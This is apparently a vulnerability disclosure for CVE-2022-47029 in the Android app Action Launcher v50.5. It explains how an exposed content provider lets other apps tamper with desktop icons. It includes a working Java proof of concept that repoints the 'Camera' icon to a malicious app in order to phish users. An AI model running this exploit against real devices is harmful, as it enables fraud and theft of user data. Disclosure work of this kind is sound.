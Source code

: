 ## Escalation of Privileges exists in Action Launcher（CVE-2022-47029）

Vendor: Action Launcher(https://actionlauncher.com/)

Affected product: Action Launcher(com.actionlauncher.playstore)

Version: 50.5

Download link：https://play.google.com/store/apps/details?id=com.actionlauncher.playstore&hl=en

Description of the vulnerability for use in the CVE：Action Launcher v50.5 allows unauthorized apps to tamper with the icons on the desktop and their corresponding apps, allowing attackers to defraud users by launching a fake UI.

Additional information: The favorite table in the exposed database stores the icon information
presented on the screen such as name, icon picture, and location coordinate. The intent string in the table is used to start the MainActivity of a target app. An unauthorized app can modify the intent data to defraud users by launching a fake UI, further stealing user-sensitive information. Besides, attackers can directly manipulate the icon name, picture, and location coordinate on the desktop to replace the app to start.

poc:

```java
 public void attack_update_launcher() {
        //Fake a malicious app as Google Camera. When user launch Google Camera, a malicious app is start!
        ContentResolver contentResolver = getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.actionlauncher.playstore.settings/favorites");
        ContentValues contentValues = new ContentValues();
        contentValues.put("title", "Camera");
        //Forge a malicious Intent to launch a malicious application
        contentValues.put("intent",
                "#Intent;action=android.intent.action.MAIN;category=android.intent.category.LAUNCHER;launchFlags=0x10200000;package=com.attack" +
                        ";component=com.attack/com.attack.MainActivity;end");
        //The position of Google Camera app in Action Launcher database
        String[] s = {"5"};
        contentValues.put("screen", 0);
        contentValues.put("container", -101);
        contentValues.put("cellX", 4);
        contentValues.put("cellY", 0);
        contentValues.put("spanX", 1);
        contentValues.put("spanY", 1);
        contentValues.put("itemType", 0);
        contentValues.put("iconType", 1);
        contentValues.put("iconPackage", "com.actionlauncher.playstore");
        contentValues.put("iconResource", "com.actionlauncher.playstore:drawable/ic_allapps");
        //Must update the icon filed use an icon same as Google Camera, or the Google Camera's icon will change.
        Drawable drawable = getApplicationContext().getResources().getDrawable(R.drawable.attack);
        BitmapDrawable bd = (BitmapDrawable) drawable;
        Bitmap bitmap = bd.getBitmap();
        ByteArrayOutputStream os = new ByteArrayOutputStream();
        bitmap.compress(Bitmap.CompressFormat.PNG, 100, os);
        byte[] bytes = os.toByteArray();
        contentValues.put("icon", bytes);
        contentResolver.update(uri, contentValues, "_id=?", s);
    }
```

